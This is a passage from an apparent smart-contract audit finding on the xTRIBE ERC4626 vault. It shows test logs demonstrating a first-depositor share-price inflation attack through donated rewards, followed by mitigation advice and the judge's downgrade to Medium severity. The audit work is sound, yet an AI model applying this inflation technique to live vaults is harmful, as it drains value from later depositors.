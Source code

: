     [PASS] testExploitShare() (gas: 410737)
    Logs:
      share price   : 1
      transfer 100e18 fake token rewards to inflate share price
      share price   : 100000000000000001
      deposit 1e18  : 9
      share price   : 110000000000000000
      deposit 500e18: 4545
      share price   : 110010976948408342
      deposit 500e18: 4545
      share price   : 110010989010989010
      fast forward 1 hour to new rewards cycle
      share price   : 120989010989010989
      deposit 2e18  : 16
      share price   : 120996050899517332
      deposit 500e18: 4132
      share price   : 120999396135265700
      deposit 1.3e17: 1
      deposit 1.9e17: 1
      deposit 2e17  : 1
      share price   : 121011244434382310
      deposit 2.5e17: 2
      deposit token less than share price amount will be reverted due to return 0 share
      fast forward 1 hour to new rewards cycle
      share price   : 121011846374405794
      fast forward 1 hour to new rewards cycle
      share price   : 121011846374405794
    
    Test result: ok. 2 passed; 0 failed; finished in 20.78ms

### [](#recommended-mitigation-steps-1)Recommended Mitigation Steps

This exploit is unique to contract similar to ERC4626. It only works if starting supply equal 0 or very small number and rewards cycle is very short. Or everyone withdraws, total share supply become 0.

This can be easily fix by making sure someone always deposited first so `totalSupply` become high enough that this exploit become irrelevant. Unless in unlikely case someone made arbitrage bot watching vault factory contract.  
Just force deposit early token during vault construction as last resort.

**[Joeysantoro (xTRIBE) commented](https://github.com/code-423n4/2022-04-xtribe-findings/issues/66#issuecomment-1126303570):**

> [https://github.com/Rari-Capital/solmate/pull/174/files](https://github.com/Rari-Capital/solmate/pull/174/files) this is a known issue with 4626. xTRIBE would be initialized safely in this case.

**[0xean (judge) decreased severity to Medium and commented](https://github.com/code-423n4/2022-04-xtribe-findings/issues/66#issuecomment-1132027880):**

> Known or unknown this is still a valid attack that isn’t mitigated for in the current codebase. Given that there are mitigations that could be integrated on chain (like in the uniswap contracts that burn the first dust amount of LP tokens) , and the warden did demonstrate the attack I am going to downgrade this to medium severity as a “leak of value”.
> 
> `2 — Med: Assets not at direct risk, but the function of the protocol or its availability could be impacted, or leak value with a hypothetical attack path with stated assumptions, but external requirements.`
